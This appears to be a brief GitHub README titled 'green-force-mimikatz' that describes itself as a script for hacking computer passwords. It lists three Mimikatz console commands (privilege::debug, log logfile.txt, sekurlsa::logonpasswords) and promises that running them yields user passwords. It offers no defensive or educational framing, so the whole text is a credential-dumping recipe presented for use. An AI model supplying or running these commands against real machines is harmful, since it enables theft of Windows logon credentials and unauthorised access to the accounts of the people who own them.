 # green-force-mimikatz

Mimikatz_trunk this is script for hacking computer passwords:

Open mimikatz.exe

Run commands in mimikatz:

> mimikatz # privilege::debug

> mimikatz # log logfile.txt

> mimikatz # sekurlsa::logonpasswords

And you will have user passwords!
